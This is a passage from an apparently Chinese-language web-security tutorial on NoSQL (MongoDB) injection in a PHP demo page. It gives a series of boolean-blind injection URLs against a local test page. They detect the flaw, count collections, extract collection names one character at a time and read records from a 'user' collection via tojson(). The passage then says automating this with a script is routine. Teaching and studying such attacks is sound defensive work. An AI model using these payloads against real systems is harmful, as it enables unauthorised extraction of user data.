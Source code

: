```
?>

```

为了测试，我建立了两个集合，一个是news集合，查询过程中存在注入。另一个是user集合，我们要注入得到其中的数据。

代码中的this.news指的就是表中的news栏（字段），上面的代码翻译成sql语句就是：

> select * from news where news='$news'

该demo的注入方式可以参考如下：

> http://127.0.0.1/3.php?news=test

返回正常

> http://127.0.0.1/3.php?news=test'

返回错误

> http://127.0.0.1/3.php?news=test'%26%26'1'=='1

返回正常

> http://127.0.0.1/3.php?news=test'%26%26'1'=='2

返回错误

至此检测出注入，开始获取数据。

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames().length>0%26%26'1'=='1

返回正常，集合数大于0

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames().length==5%26%26'1'=='1

返回正常，集合数等于5

![enter image description here](http://drops.javaweb.org/uploads/images/582a61b5b4d17102929694a7930e5c3d45f08c0a.jpg)

获取集合名称

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames()[0].length==6%26%26'1'=='1

返回正常，第一个集合名称长度为6

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames()[0][0]>'a'%26%26'1'=='1

返回正常，第一个集合名称第一个字符大于a

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames()[0][0]=='m'%26%26'1'=='1

返回正常，第一个集合名称第一个字符为m

![enter image description here](http://drops.javaweb.org/uploads/images/736ca15d73b25d5de2a53ea1ba0ebf456103cb52.jpg)

最终可以破解出存在user集合。

查user集合中的第一条数据。

> http://127.0.0.1/3.php?news=test'%26%26tojson(db.user.find()[0])[0]=='{'%26%26'1'=='1

因为db.user.find()返回的不是一个字符串，无法取出字符进行比较，我们可以将它转化成一个json字符串，就可以比较了。 道理讲明白了，剩下的都是体力活，用python或者php写下小脚本就能实现自动化。

0x03 Referer
=====

http://drops.wooyun.org/papers/850

http://webcache.googleusercontent.com/search?q=cache:fPNiwObqKcEJ:hi.baidu.com/d4rkwind/item/ad7b81efb799ce2e6dabb8c3+&cd=1&hl=zh-CN&ct=clnk&gl=cn
